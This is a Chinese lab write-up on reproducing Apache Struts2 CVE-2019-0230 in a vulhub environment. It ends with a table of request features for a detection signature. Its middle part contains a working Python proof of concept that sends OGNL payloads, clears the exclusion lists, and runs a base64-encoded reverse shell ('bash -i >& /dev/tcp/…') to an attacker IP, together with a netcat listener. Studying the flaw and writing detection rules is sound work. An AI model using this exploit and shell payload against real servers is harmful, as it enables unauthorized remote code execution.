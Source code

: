 # 一、简介

2020年08月13日，Apache官方发布了Struts2远程代码执行漏洞的风险通告，该漏洞编号为CVE-2019-0230，漏洞等级：高危，漏洞评分：8.5

# 二、漏洞描述

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

 

漏洞产生的主要原因是因为Apache Struts框架在强制执行时，会对分配给某些标签属性(如id)的属性值执行二次ognl解析。攻击者可以通过构造恶意的OGNL表达式，并将其设置到可被外部输入进行修改，且会执行OGNL表达式的Struts2标签的属性值，引发OGNL表达式解析，最终造成远程代码执行的影响。

# 三、影响版本

```
Struts 2.0.0 – Struts 2.5.20
```

 

# 四、漏洞复现

## （1）漏洞环境

攻击机：192.168.1.129

靶机：  192.168.1.12

这里使用vulhub，很方便。

```
docker-compose up -d
```

启动环境之后访问http://your-ip:8080

![image.png](https://cdn.nlark.com/yuque/0/2020/png/262404/1604245560183-de8da39d-93a1-41a5-8bd8-666aae010817.png)

（2）漏洞验证

由于该漏洞是存在解析漏洞，也就是对于用户提交的数据进行了二次处理。

从而攻击者对输入的内容进行特意构造，然后实现攻击成。

URL `http://192.168.1.12:8080/?id=%25{2*3}` 

![image.png](https://cdn.nlark.com/yuque/0/2020/png/262404/1604330578391-b09fa643-f604-4ef0-a27f-e7190d0a532c.png)

（3）漏洞复现

**构造POC**

用来反弹shell

这里要修改两个地方：

1.靶机IP

192.168.1.12

2.攻击机IP反弹shell base64编码

bash -i >& /dev/tcp/192.168.1.129/6666 0>&1

 

```
import` `requests``url ``=` `"http://192.168.1.12:8080"``data1 ``=` `{``  ``"id"``: ``"%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"``}``data2 ``=` `{``  ``"id"``: ``"%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c  {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTIvNjY2NiAwPiYxCg==}|{base64,-d}|{bash,-i}'))}"``}``res1 ``=` `requests.post(url, data``=``data1)``res2 ``=` `requests.post(url, data``=``data2)
```

　　

1.监听端口

```
nc -lvvp 6666
```

2.运行脚本

```
python3 payload.py
```

3.反弹shell

![image.png](https://cdn.nlark.com/yuque/0/2020/png/262404/1604331334394-efa55a06-a180-408b-906c-efa3b2e2db75.png)

# 五、漏洞分析

攻击的时候抓取数据包

![image.png](https://cdn.nlark.com/yuque/0/2020/png/262404/1604331538859-27d33393-af0c-4542-b96b-a3fee2d29c10.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/262404/1604332378455-66de17ea-0046-4283-b748-755de5f609c7.png)

# 六、特征提取

从攻击数据包里可以很清楚的看到，攻击者通过id值=xxx，来传入恶意的payload，

其中 %25是 % ，%7B是{，%7D是}

而请求包中包含payload，例如suricata规则中可以用content来匹配。

我们还是先对发送包进行URL解码:

```
id``=%{(``#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}
```

　

```
这样就很清晰了，可以得到双向规则，来防护这个漏洞的攻击。
```

| 特征              | 说明             |
| ----------------- | ---------------- |
| POST方式          | http.method=POST |
| 状态码 200        |                  |
| 请求头 包含 %     |                  |
| 请求头 包含  {    |                  |
| 请求头 包含  }    |                  |
| 请求头包含payload |                  |
| 响应头包含payload |                  |